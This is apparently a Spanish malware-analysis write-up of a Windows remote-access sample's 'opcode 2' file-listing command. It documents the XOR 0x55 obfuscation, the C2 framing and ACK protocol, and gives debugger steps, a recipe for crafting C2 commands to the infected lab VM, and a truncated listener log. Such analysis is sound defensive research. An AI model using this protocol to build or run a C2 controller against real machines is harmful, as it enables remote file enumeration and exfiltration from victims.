# FUN_00401A20 - Opcode 2

Esta función está diseñada para procesar una cadena (probablemente una ruta o patrón de búsqueda de archivos), aplicar una decodificación `XOR`, y luego intentar acceder al sistema de archivos usando FindFirstFileA. Si falla, envía la información por red.

- Codifica los primeros 256 bytes de param_2 aplicando `XOR 0x55`. Esto es una forma de ocultar una ruta de archivos o patrón (*.exe, etc.) en la muestra.
- Reserva e inicializa a cero un buffer `WIN32_FIND_DATAA` justo después de la decodificación.
-  Si falla el acceso al archivo, comunica por red. `CALL send()`


**¿Qué hace esta función?:**
- Decodifica una cadena XOR (longitud ≤ 256).
- Intenta encontrar archivos en disco con `FindFirstFileA` (usando esa cadena).
- Si no hay resultados, informa al C2 o al controlador remoto mediante `send()` con 2 bytes.

```
                             DAT_0040a18c                                    XREF[2]:     FUN_00401a20:00401a6e(*), 
                                                                                          FUN_00402620:00402651(*)  
        0040a18c 71              ??         71h    q
        0040a18d 00              ??         00h
        0040a18e 00              ??         00h
        0040a18f 00              ??         00h
```

**Conclusión**:
- El malware decodifica una cadena XOR y busca archivos (probablemente con un patrón como *.exe, autorun.inf, etc.).
- Si no encuentra resultados con FindFirstFileA, envía [0x71, 0x00] por red al servidor C2: "q".
- 'q' podría significar "query failed", "quiet", "no hay archivos", o algún otro significado interno del protocolo C2.
- Esto marca un fallo o una condición esperada sin datos locales.
----------------------------------------------------------

Esta función recibe un patrón de ruta (path mask) desde el C2, lista los ficheros que coincidan y los envia de vuelta en registros de 0x204 bytes, con un `“ACK”` de 2 bytes entre registro y registro.

## Qué entra y qué sale
- **Entrada:**
  - param_1: el socket ya conectado (se pasa desde el caller).
  - param_2: puntero a los 256 bytes que siguen al DWORD del opcode en el paquete de 0x104.  
    En el bucle principal, el malware hace `recv(0x104) → [DWORD opcode][256 bytes]`.  
    Para opcode=2, esos 256 bytes son el patrón de búsqueda, ofuscado con `XOR 0x55`.

- **Salida por red:**
  - Primero, un código de 2 bytes indicando si hubo match en el `FindFirstFileA`:
    - Si no hay coincidencias: envía 2 bytes desde DAT_0040a18C (valor 0x71 = 'q').
    - Si sí hay coincidencias: envía 2 bytes desde DAT_0040a188 (valor 0x6F = 'o').
  - Luego, cero o más “registros de fichero” de 0x204 bytes, uno por entrada listada.
    - Tras cada registro, el cliente espera 2 bytes de ACK del servidor.
  - Al terminar el directorio (“no more files”), envía un último registro de 0x204 con un flag a 0 (fin de lista).

## Flujo detallado
### 1. Deofuscación del patrón (param_2)
- Bucle de EAX=0..0xFF: param_2[i] ^= 0x55.  
⇒ El patrón que el C2 envía en el comando de 0x104 debe estar XOR 0x55.  
Ejemplo de patrón útil: b"C:\\Users\\usuario\\Desktop\\*\\x00" (padded a 256, luego XOR 0x55).  

### 2. Primera búsqueda
- FindFirstFileA(pattern, &WIN32_FIND_DATA).  
- Si falla: envía 2 bytes 'q' (send(sock, &0x0040a18C, 2, 0)) y RET.  
- Si tiene éxito: envía 2 bytes 'o' (send(sock, &0x0040a188, 2, 0)) y sigue.  

### 3. Preparación de buffers y metadatos
- Llama a SHGetFileInfoA para atributos/ícono/tipo.  
- Filtra "." y ".." (dos comparaciones diferentes contra '.'): si es un punto o dos puntos, salta a buscar el siguiente.  

### 4. Construcción del registro (0x204 bytes)
- Copia el nombre desde WIN32_FIND_DATA.cFileName a un área que empieza en ESP+0x170.
- Mira dwFileAttributes & 0x10:
  - Si es directorio, usa una cadena prefijo (en DAT_0040a17C, típico “DIR” o similar).
  - Si es archivo, toma otra rama (usa otros buffers temporales).
- Calcula tamaño en KB: (nFileSizeHigh:Low) >> 10 y lo formatea con una plantilla (la cadena en DAT_0040a178, parece un "%u" o similar).
- Convierte ftLastWriteTime a hora legible con FileTimeToSystemTime y la plantilla "%4d-%02d-%02d %02d:%02d:%02d" (está en DAT_0040a158).
- Todo eso se concatena en el buffer de salida; el frame total que se envía es 0x204 bytes:
  - Los primeros 0x100 bytes se OFUSCAN con XOR 0x55 (bucle de 0x100 bytes justo antes del send).
  - El resto (0x104 bytes siguientes) se envía tal cual (relleno/otros campos).

### 5. Envío del registro y espera de ACK
- send(sock, outbuf, 0x204, 0) donde outbuf empieza en ESP+0x170 (los 0x100 bytes iniciales ya pasaron por XOR 0x55).
- Recibe 2 bytes (recv(sock, &ack, 2, 0)) y llama a FUN_0040296d(&ack).
  - Si retorna != 0 ⇒ reenvía el mismo registro (salta a re‑XOR y send de nuevo).  
    (Esto encaja con un “resend si el C2 lo pide”).
  - Si retorna 0 ⇒ continúa con el siguiente fichero.

### 6. Enumeración
- Bucle con FindNextFileA.
- Si FindNextFileA falla, revisa GetLastError():
  - Si NO es ERROR_NO_MORE_FILES (0x12): vuelve a intentar (ramas que retornan al bucle).
  - Si SÍ es 0x12: fin de directorio.

### 7. Fin de lista
  - Escribe un flag 0 en un campo del frame (en el decomp se ve [ESP+0x370] = 0), vuelve a hacer XOR 0x55 a los 0x100 bytes iniciales, envía un último frame de 0x204 como marcador de fin, cierra el handle con FindClose y RET.

Lo que esto implica para tu listener (lado C2)

## Para que la MV Windows infectada funcione el opcode 2:
- El Host C2 debe enviar: 0x104 bytes con opcode=2 y parámetro de 256 bytes (XOR 0x55). Estructura exacta (por ejemplo):
  - `pack("<I", 2) + xor55(pad_to_256("C:\\Users\\usuario\\Desktop\\*\\x00"))`
- Durante el listado que genera el opcode 2, el cliente te enviará frames de 0x204 bytes.
- Si queremos ver el contenido, desofuscamos con XOR 0x55 los primeros 0x100 bytes de cada frame recibido.
- Devuelve 2 bytes de ACK por cada frame.
- En la práctica, un ACK b'\x00\x00' suele funcionar como “ok, siguiente”.

## Resumen mental rápido del funcionamiento de Opcode 2
- Comando 2 = “Lista de ficheros con patrón”.
- Enviamos: 0x104 = [02 00 00 00] + XOR55(path_mask padded 256).
- El cliente:
  - Nos envía 2 bytes: 'o' / 'q'.
  - Si 'o', nos manda frames de 0x204; desXOR los primeros 0x100 si quermos leerlos.
  - Responde 2 bytes a cada frame → 00 00 para pasar al siguiente.
  - Al acabar, un frame final (flag “0”), mismo ACK, y vuelve a esperar órdenes.

 








_________________________


### OPCODE2
Se corresponde con la [FUN_00401A20-opcode2](FUN_00401A20-opcode2.md)








Hace un listado del contenido de la carpeta que se le pasó por parámetro:


### Terminar su ejecución y regresa al switch para pedir optro opcode al host C2.
_________________________
# Análisis dinámico de Opcode 2

## 1. Preparación y pattern de búsqueda
- 00401A20 – Entrada de FUN_00401A20 (param_2 = patrón ofuscado).  
  Miramos: param_2 (ECX) contiene lo que se ha enviado desde el host C2.
  

  [esp+8] = 0019FE0C → es param_2, el puntero que entra a la función (la máscara/ruta ofuscada).

  EAX = 0019FE0C aquí es casual (valor arrastrado). En unas instrucciones se hace XOR EAX,EAX y deja de tener importancia su contenido.

  MOV EDX, [esp+8] carga EDX = param_2. Ese buffer lo vemoss en el dump: empieza con bytes raros y un montón de 0x55 — está ofuscado a propósito.

  A partir de 00401A2E → 00401A3D hay un bucle que hace XOR 0x55 sobre 0x100 bytes en [EDX] para deofuscar ese patrón.
  (Por eso vemos tantos 0x55: al XORear 0x55 con 0x55 salen ceros/ASCII legible según el caso).
  
- 00401A2E – Inicio del bucle XOR 0x55 sobre param_2 (0x100 bytes).  
  Vamos ejecutando el bucle: Se va cargando poco a poco el patrón ya deofuscado en [param_2] (ruta/máscara para FindFirstFileA).
  

## 2. Enumeración inicial
- 00401A52 – FindFirstFileA(param_2, &WIN32_FIND_DATA)  
  Miramos: WIN32_FIND_DATA en [ESP+0x28] (nombre en [+0x5C], tiempos en [+0x48..+0x50]).
  

- 00401A5A – cmp ebx, -1 (sin coincidencias).  
  - Si no hay archivos:   
    00401A74 – WS2_32::Ordinal_19 (probable send) del estado “no files”.  
    Miramos: buffer y longitud. Luego retorna.  


- 00401A9C – WS2_32::Ordinal_19 (crea socket / handshake inicial).
  
  
- 00401CD1 – Bucle XOR 0x55 sobre el buffer de salida ([ESP+0x170], 0x100 bytes).  
  Esto es la (re)ofuscación previa al envío.
  

- 00401D00 – WS2_32::Ordinal_19 → envío del bloque (probable send(socket, buf, 0x204, 0)).  
  Miramos: socket en EDX, puntero [ESP+0x174], tamaño 0x204.
  
  
- 00401D12 – WS2_32::Ordinal_16 (probable recv 2 bytes de ACK).  
  Miramos: destino [ESP+0x16], len 2.
  
  
- 00401D1D – FUN_0040296D (valida ACK).  
  Si ≠0 → 00401CCF: repite XOR+send (reintento).  
  Si =0 → continúa.

## 3. Iteración sobre el resto de archivos
- 00401D57 – Llamada a la API FindNextFileA (itera).
  
- 00401D59 - Regreso de la API FindNextFileA.
  ```
  00401D61  mov dword ptr ss:[esp+370],1
  00401D6C  mov esi, ...
  00401D71  lea eax, dword ptr ss:[esp+5C]  ; EAX = &cFileName
  ```
  Step con F7 hasta 00401D71: `lea eax,[esp+5C].`
  Para ver el contenido de [esp+5C] que es el que contiene el nombre del fichero que se está exfiltrando: click boton derecho sobre esa instrucción --> Follow in DUMP --> Address ESP+5C  
  
  
- 00401D3D – Inicio del bucle por archivo (se repite el filtro y armado).
- 00401DDC – Inicio de preparación para cada archivo válido (equivalente al #9 para los siguientes).
- 00401E08 – SHGetFileInfoA (otra vez, por archivo).
- 00401E92 – FUN_004034AA (tamaño).
- 00401F48 – FUN_004034AA (timestamp).
- 00401F7D – Bucle XOR 0x55 por archivo (reofuscación).
  
- 00401FAC – send (Ordinal_19).  
  En 00401FAC está la llamada a send (Ordinal_19 de WS2_32), cuya signatura es:
  ```
  int send(SOCKET s, const char *buf, int len, int flags);
  ```
  Antes de la call send en 00401FAC, la pila está así:
  | Offset desde ESP | Valor que se pasa a send                                             |
  | ---------------- | -------------------------------------------------------------------- |
  | `[esp+0]`        | socket (`DAT_0040AA80`)                                              |
  | `[esp+4]`        | **buf** → puntero a los datos ya preparados (y pasados por XOR 0x55) |
  | `[esp+8]`        | **len = 0x204**                                                      |
  | `[esp+0xC]`      | **flags = 0**                                                        |

  Miramos el valor de [esp+4] → 0019F4B8
  Clic derecho sobre [esp+4] → Follow in Dump → Address.
  Vemos la zona de memoria con los bytes XOReados (0x55) que son los que se envían. 
  Como son 0x204 bytes, tenemos que desplazarnos para ver todo.
  
  
  
- 00401FC2 – recv (Ordinal_16).  
  En 00401FC2 el malware llama a recv (Ordinal_16 de WS2_32) con la signatura:
  ```
  int recv(SOCKET s, char *buf, int len, int flags);
  ```
  Justo antes de la call recv (00401FC2), la pila queda así:
  | Offset desde ESP | Argumento de `recv`                                    |
  | ---------------- | ------------------------------------------------------ |
  | `[esp+0]`        | socket (`DAT_0040AA80`)                                |
  | `[esp+4]`        | **buf** → puntero donde se guardará lo recibido del C2 |
  | `[esp+8]`        | **len = 2** (espera 2 bytes de ACK)                    |
  | `[esp+0xC]`      | **flags = 0**                                          |

  Step over la instrucción 00401FC2.  
  Ahora EAX contendrá el número de bytes recibidos (2 si el C2 responde).  
  Miramos el valor en [esp+4] → será la dirección del buffer destino.  
  Hacemos clic derecho en [esp+4] → Follow in Dump → Address → Veremos los bytes que el C2 mandó → 01  
  

- 00401FCD – FUN_0040296D (ACK). Si falla → 00401F7B/00401F7D reintenta.

## 4. Fin

- 00401A3F (fin del primer XOR) y lee param_2 ya deofuscado.


## 5. Comunicación en el Server C2
```
sudo python3 listener.py 
[*] Escuchando en 0.0.0.0:443

[+] 2025-08-19 11:47:12 Conexión de 10.0.0.4:49679
    [*] Recibido (7 bytes):
        ASCII: b'fxftest'
        HEX  : 66 78 66 74 65 73 74
    [*] Enviado handshake (8 bytes)
    [*] Recibido (512 bytes):
